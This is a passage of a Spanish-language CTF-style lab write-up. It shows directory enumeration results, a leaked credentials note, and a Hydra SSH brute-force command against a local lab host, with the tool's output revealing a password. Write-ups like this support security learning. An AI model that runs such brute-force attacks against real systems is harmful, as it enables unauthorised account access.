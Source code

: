 ```
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que hay un directorio llamado `/notes` vamos a ver que contiene:

```
URL = http://<IP>/notes
```

Si entramos dentro veremos un archivo llamado `note.txt` y si leemos que contiene pone lo siguiente:

```
Dear developer,
Please remember to change your credentials "dev:developer123" to something stronger.
I've already warned you that weak passwords can get us compromised.

-Admin
```

Veremos que pone lo que parece las credenciales del usuario `dev`, si las probamos por `SSH` no veremos que nos deje, por lo que vamos a probar a realizar fuerza bruta, mediante el usuario `dev`, de esta forma:

## Escalate user dev

### Hydra

```shell
hydra -l dev -P <WORDLIST> ssh://<IP>/ -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-04 10:41:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dev   password: computer
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-04 10:42:01
```
